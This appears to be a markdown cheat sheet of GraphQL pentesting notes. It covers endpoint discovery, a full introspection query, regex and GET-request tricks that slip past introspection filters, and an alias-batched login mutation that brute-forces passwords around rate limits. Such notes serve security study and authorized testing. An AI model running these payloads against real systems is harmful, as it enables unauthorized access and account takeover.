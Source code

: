 # Content
- [Common endpoint names](#common-endpoint-names)
- [Discovering schema information](#discovering-schema-information)
- [Bypassing GraphQL introspection defenses]()

## Common endpoint names 
- /graphql
- /api
- /api/graphql
- /graphql/api
- /graphql/graphql
also try appending /v1 to the path.

## Exploiting unsanitized arguments 
check for  Broken access control vulnerabilities or IDOR

## Discovering schema information 

### using Introspection
get names of all available queries. 
```graphql
    {
        "query": "{__schema{queryType{name}}}"
    }
```
get full scheme
```graphql
 query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```
### using Suggestions
this tool [Clairvoyance](https://github.com/nikitastupin/clairvoyance) can get the scheme info using suggestions 


## Bypassing GraphQL introspection defenses
- **manpulate the query**
You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.


for example if `__schema{` is ignored , try
```graphql

    {
        "query": "query{__schema
        {queryType{name}}}"
    }

```

- **change request method or type**

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

- **use aliases to bypass ratelimit**
```graphql
mutation {

bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }
}
```
